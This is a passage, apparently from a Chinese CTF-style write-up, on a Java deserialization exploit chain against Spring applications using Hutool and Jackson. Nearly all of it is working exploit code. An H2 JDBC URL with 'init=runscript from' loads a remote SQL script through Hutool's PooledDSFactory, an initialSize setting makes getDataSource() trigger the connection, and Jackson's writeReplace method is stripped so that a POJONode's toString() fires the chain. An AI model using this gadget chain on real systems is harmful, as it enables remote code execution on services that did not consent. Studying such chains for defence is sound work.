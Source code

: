### my own
当然其实也不必像官方wp系的那样复杂。

```java
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource().getConnection();
```

### sink点的选择

至于为什么不选择jdk原生的getConnection来作为sink点，我感觉还是因为这个地方没有提供一个实例吧。就仅仅是加载驱动，然后连接。hutool 给了我们一个很好的这样的sink点。

```java
Class.forName("org.h2.Driver");
DriverManager.getConnection("jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'");
```
但是如果我们想要在getDataSource()的时候就已经触发getConnection 我们还需要多一个设置 initialSize

```java
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
setting.put("initialSize", "1");  // initialSize 为 1
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource();
```

## any get gadget

既然是 spring。首选肯定是jackson链。

```java
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";

Setting setting = new Setting();
setting.set("url",url);
setting.put("initialSize", "1");
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);
pooledDSFactory.getDataSource().getConnection();

ClassPool classPool = ClassPool.getDefault();
ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(ctMethod);
ctClass.toClass();

POJONode pojoNode = new POJONode(pooledDSFactory);
pojoNode.toString();
```
